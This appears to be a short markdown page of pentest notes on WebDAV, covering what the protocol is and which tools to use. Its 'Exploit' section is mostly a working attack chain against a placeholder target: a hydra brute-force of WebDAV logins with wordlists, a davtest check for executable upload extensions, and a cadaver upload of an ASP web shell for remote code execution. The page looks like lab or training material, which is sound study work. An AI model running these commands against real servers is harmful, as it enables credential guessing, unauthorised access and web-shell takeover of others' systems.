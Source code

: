 ```yaml
---
title: 'WebDAV'
description: 'Is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.'
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'webdav']
slug: vuln/webdav
---
```


## Information

- WebDAV essentially enables a web server to function as a file server for collaborative authoring.

- WebDAV runs on top Microsoft IIS on ports 80/443.

- Implements auth to connecto a WebDAV server.

## Tools

- davtest
- cadaver
- hydra

## Exploit

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/pass.txt target http-get /webdav/
```

Checking for test file execution, which extension can be uploaded for RCE.

```bash
davtest -auth bob:pass123 -url http://target/webdav
```

Inserting our payload.

```bash
cadaver http://target/webdav
Username: bob
Password:

dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```
